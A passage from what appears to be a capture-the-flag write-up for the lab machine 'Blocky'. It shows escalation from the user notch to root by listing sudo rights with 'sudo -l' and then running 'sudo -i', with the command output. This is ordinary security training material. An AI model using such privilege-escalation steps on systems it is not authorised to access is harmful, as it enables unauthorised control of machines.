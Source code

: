 ```bash

notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
notch@Blocky:~$ whoami
notch
```

I got `notch`'s shell!



# Shell as `root`

### Enumeration

```bash
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

For the low-hanging fruit, I checked `sudo` command, and found out that current user `notch` can run `sudo` command with any commands as any user.

### Exploit `sudo` to get `root` shell

Let's exploit this to spawn a `root` shell.

```bash
notch@Blocky:~$ sudo -i
root@Blocky:~# whoami
root
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
```

I got `root` shell!